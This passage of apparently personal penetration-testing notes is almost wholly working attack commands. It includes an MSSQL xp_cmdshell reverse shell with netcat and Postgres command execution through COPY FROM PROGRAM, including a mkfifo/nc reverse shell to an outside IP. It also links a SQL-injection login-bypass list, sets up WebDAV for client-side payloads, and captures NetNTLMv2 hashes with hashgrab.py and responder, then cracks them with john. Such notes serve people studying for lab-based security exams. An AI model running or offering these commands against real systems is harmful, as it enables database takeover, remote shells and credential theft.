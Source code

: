 ```jsx
EXECUTE xp_cmdshell 'C:/Users/Public/nc64.exe 10.10.137.147 443 -e cmd';
```

### Postgres RCE

```jsx
psql -h 240.0.0.1 -p 5432 -U postgres -d webapp

DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

# Reverse shell
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.160 443 >/tmp/f';
```

### Bypass auth

[SecLists/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt at master · danielmiessler/SecLists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt?source=post_page-----7e777892e485--------------------------------)

# Client-side attack

### Webdav - Email - Library-ms

We can try to use the reverse shell as in Client-Side attacks in the course: [mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/Desktop/webdav/](https://www.notion.so/mkdir-home-kali-webdav-touch-home-kali-webdav-test-txt-home-kali-local-bin-wsgidav-host-0-0-0--259879d4893145ad979a04afccf7a7c7?pvs=21) (There is also swaks usage to put as email)

### .lnk

Grab NetNTLMv2 hash with responder with ‘hashgrab.py’ (in /Desktop/share/ClientSide)

```jsx
python hashgrab.py 192.168.45.207 test   # run hashgrab and create payloads 
sudo responder -I tun0 -v                # run responder in another terminal
smbclient //192.168.181.30/nara          # connect to the smb share
cd Documents                             # go to the correct folder
put test.ln                              # upload the test.lnk created by hashgrab.py

# put the hash in hash file and crack
john hash -wordlist=/usr/share/wordlists/rockyou.txt
```
